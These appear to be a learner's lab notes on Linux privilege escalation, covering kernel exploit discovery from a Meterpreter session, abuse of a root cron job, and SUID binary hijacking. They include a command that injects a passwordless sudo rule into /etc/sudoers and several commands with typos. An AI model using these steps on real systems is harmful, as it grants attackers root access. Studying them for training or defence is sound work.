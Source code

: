 # Linux Kernel Exploits
- to execute arbitrary coe in order to run privileged system commands or to obtain a system shell
- differ based ont the kernel version and distribution
- methodology
	- identifying kernel vulns - tool linux-exploit-suggester
	- download, compile, and transfer kernel exploit on the target sys
- tools
	- Linux-Exploit-Suggester
	- GitHub
- **Process**
	- obtain a meterpreter session on the target
	- after that collect data- `sysinfo`, `getuid`, 
	- download and transfer the tool to the target system
		- `cd /tmp`
		- upload <path to file>
	- shell
	- `/bin/bash -i`
	- `chmod +x les.sh`
	- `./les.sh`
	- will provide us with the vulns 
	- download the exploit and compile it on your machine
	- transfer it to the target system
	- run it
	- If it does not work, upload the file before compilation
	- compile it on the target system
	- you have a new user with root privileges

### Misconfigured Cron Jobs
- Cron is a time-based service that runs applications, scripts and other commands repeatedly on a specified schedule
- crontab file
- Cron jobs can be run as any user on the system
- find and identify cron jobs scheduled by the root user
- **Exploitation Process**
	- `crontab -l`
	- `ls -al`
	- `cd /`
	- `grep -rnw /usr -e "home/student/message"`
	- once find the script, edit it 
	- `printf '#!/bin/bash\necho "student ALL=NOPASSWD:ALL" >> /etc/sudoers' > /usr/local/share/copy.sh`
	- `sudo -l`
	- `sudo su`

### Exploiting SUID Binaries
- Set Owner User ID
- a permission like read, wirte, and execute
- provides users with the ability to execute a script or binary with permissions of the file owner
- factors important
- owner of SUID binary
- Access permissions
-**Exploitation Process**
	- `ls -la`
	- find the file which has the SUID permission enabled s
	- `file welcom` --> welcome is the name of file
	- `strings welcom`
	- `rm greetings`
	- `co /bin/bash greetings`
	- ` ./welcom`
